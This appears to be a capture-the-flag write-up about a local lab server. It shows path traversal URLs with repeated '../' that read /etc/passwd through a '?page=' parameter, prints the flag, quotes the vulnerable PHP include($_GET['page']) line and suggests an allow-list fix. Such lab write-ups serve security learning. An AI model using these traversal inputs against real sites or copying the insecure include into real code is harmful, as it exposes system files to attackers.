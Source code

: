 # situation


all pages was charged by using  http://192.168.56.101/?page= so we can try to charge /etc/passwd
server send alert whit : wtf ?
if we try http://192.168.56.101/?page=../../etc/passwd
he send wrong
if i try whit a lot of ../ like : http://192.168.56.101/?page=../../../../../../../../../../../../../../etc/passwd
he give me
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
in alert


# problem:

We can go back to root in the website so we can have an access to the website files and explore it.

```
<?php 
include($_GET['page']);
?>
```

# fix:

Set the correct root property in nginx configuration.
the fix here is to us a real routing system in php or at least setting allowed path and no others
https://stackoverflow.com/questions/10148328/php-is-include-function-secure